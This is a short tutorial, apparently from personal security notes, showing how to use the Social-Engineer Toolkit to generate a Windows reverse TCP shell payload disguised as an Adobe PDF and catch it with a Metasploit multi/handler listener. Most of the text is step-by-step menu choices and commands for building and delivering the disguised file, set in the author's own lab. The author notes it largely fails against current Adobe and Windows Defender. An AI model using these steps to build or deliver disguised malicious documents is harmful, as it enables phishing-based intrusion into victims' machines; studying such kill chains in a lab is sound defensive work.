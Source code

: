 # Reverse shell tcp exploit masked as adobe pdf

Let's make an msfvenom payload that is masked as a PDF using social engineering toolkit. First install `setoolkit` if you don't have it (comes preinstalled in kali)

### 1. Create pdf of your own but it's not really needed.

`echo "Ur hacked lol" > hacked.txt`

install enscript `sudo apt install enscript`

Now turn txt into pdf
`enscript hacked.txt -o - | ps2pdf - hacked.pdf`

### 2. Start social engineering toolkit

`sudo setoolkit`

<img src="1.png" alt="img"/>

Now we will select the following options: 

1. 1) Social-Engineering Attacks

2. 1) Spear-Phishing Attack Vectors

3. 2) Create a FileFormat Payload

4. 13) dobe PDF Embedded EXE Social Engineering

5. Now you can either choose 1 or 2 to use your own pdf or a blank PDF. I will use a blank PDF at this point.

6. Select your payload type. These are generated similar to msfvenom. 

I will use Windows Reverse TCP Shell (x64) so 4

7. Select your host IP (Localhost or whatnot)

8. Select your Port (4443 or something)

9. You can decide to rename the file or not. In this case I will rename it to `hacker.pdf`

10. There are some email options but we won't worry about it and just quit

The generated pdf will be placed in a weird place. You can access it via:

`sudo -i`

`cd /root/.set/`

<img src="2.png" alt="img"/>

I will move this PDF that is generated into a shared folder to my windows machine

`mv hacker.pdf /media/sf_Shared_Folder/`

Set up listener:

`msfconsole`

`use exploit/multi/handler`

`set payload windows/x64/shell/reverse_tcp`

`LHOST = localhost`

`LPORT = 4444`

`exploit`

Now it will listen on the port and wait for the PDF payload to be executed.

On our windows machine, we can open the PDF: 

<img src="3.png" alt="img"/>

Now when you open the PDF, it will try install something into your system32 folder which is kinda sus.

But depending on the method you open it, it most likely will not work because adobe acrobat disables any executables by default and you would have to use a super old version for this to work.

For me it actually deleted the PDF when i tried executing it with windows defender on.

Nonetheless, it's a cool look into what is the killchain for document-based executables.

References:

https://www.youtube.com/watch?v=Zj_7Wunnu2w